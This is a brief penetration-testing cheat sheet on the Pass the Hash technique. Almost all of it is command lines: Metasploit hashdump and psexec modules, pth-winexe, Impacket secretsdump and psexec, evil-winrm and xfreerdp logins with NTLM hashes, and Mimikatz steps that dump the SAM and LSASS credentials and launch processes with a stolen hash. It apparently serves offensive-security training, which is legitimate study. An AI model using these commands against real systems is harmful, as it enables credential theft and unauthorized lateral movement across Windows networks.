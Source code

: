 # Pass the Hash
Pass the hash technique allow an attacker to authenticate to a remote system or service using a user' NTLM hash instead of plaintext password. It requires access to the special administrative share named Admin$, thus also local administrative rights. There many tools for performing a similar to legimate use of connecting with SMB. [[Metasploit]] has:
```bash
post/windows/gather/hashdump
exploit/windows/smb/psexec
```

Another method:
```bash
pth-winexe -U $username%$NT:$LM //$ip cmd
```

[[Impacket-Cheatsheet]] with:
```bash
# Dump secrets for more ntlm
secretsdump.py $user@$ip -hashes $ntml
# Laterally move 
psexec -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP
```

Or login with [[Evil-winrm-Cheatsheet]] using  `-H` 
```bash
evil-winrm -i $ip -u $user -H $ntml
```

`xfreerdp` with:
```bash
xfreerdp /v:$IP /u:DOMAIN\\Administrator /pth:$ntml
```

With [[Mimikatz-Cheatsheet]]
```powershell
privilege::debug
token::elevate
# Dump the SAM
lsadump::sam 
# Extract NTLM hashes from LSASS memory
sekurlsa::msv
# Revert Token to then use the hash from the above command's output
token::revert
sekurlsa::pth /user:<username> /domain:<domain-name> /ntlm:<ntlm hash> /run:"<cmds goes here>"
```


## Reference

[THM Lateral movement and pivoting](https://tryhackme.com/room/lateralmovementandpivoting)
[Ippsec.rocks](https://ippsec.rocks/?#)